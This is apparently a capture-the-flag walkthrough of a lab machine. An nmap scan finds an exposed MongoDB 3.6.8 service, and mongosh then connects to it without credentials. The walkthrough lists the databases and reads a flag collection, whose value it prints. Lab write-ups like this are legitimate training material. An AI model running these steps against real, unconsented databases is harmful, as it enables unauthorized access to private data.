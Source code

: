 ```php
nmap -sV -A 10.129.148.247

22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
27017/tcp open  mongodb MongoDB 3.6.8 3.6.8
| mongodb-databases: 
```

We have to use `mongosh` to establish a shell with the MongoDB database

```php
drew@oracle:/usr/local/lib/node_modules/mongosh/bin$ ./mongosh.js "mongodb://10.129.148.247:27017"
Current Mongosh Log ID:	683960feb4167fb9a21efeb7
Connecting to:		mongodb://10.129.148.247:27017/?directConnection=true&appName=mongosh+1.3.1
Using MongoDB:		3.6.8
Using Mongosh:		1.3.1
```

See all collections in the database

```php
test> show dbs
admin                  32.8 kB
config                 73.7 kB
local                  73.7 kB
sensitive_information  32.8 kB
users                  32.8 kB
```

We query the documents for a collection called `flag` in a readable format

```json
db.flag.find().pretty()
[
  {
    _id: ObjectId("630e3dbcb82540ebbd1748c5"),
    flag: '1b6e6fb359e7c40241b6d431427ba6ea'
  }
]
```

We find the root flag `1b6e6fb359e7c40241b6d431427ba6ea`

We have rooted this machine 